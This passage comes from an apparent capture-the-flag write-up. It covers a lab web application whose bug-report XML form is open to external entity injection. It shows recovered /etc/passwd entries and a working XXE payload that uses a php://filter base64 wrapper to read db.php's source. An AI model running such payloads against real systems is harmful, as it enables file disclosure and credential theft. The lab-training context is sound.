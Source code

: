 ![repeater_passwd](img/repeater_passwd.png) <br>

From the file we recovered, we see that we got 2 users who might have SSH access:

```
root:x:0:0:root:/root:/bin/bash
development:x:1000:1000:Development:/home/development:/bin/bash
```

Next, I was fiddling around and tried many other files which haven't given me anything interesting.<br>
At some point, I remembered about the `db.php` file which gave us a blank page when we visited it onto our browser.<br>

I was sure there was some **PHP** code in there that our browser just could not interpret, so I used the `PHP` module<br>
with its built-in filters in order to encode the file in base64 before it gets rendered by the browser.<br>
This way would allow us to see the data before **PHP** interprets it and sends it to our browser. <br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```
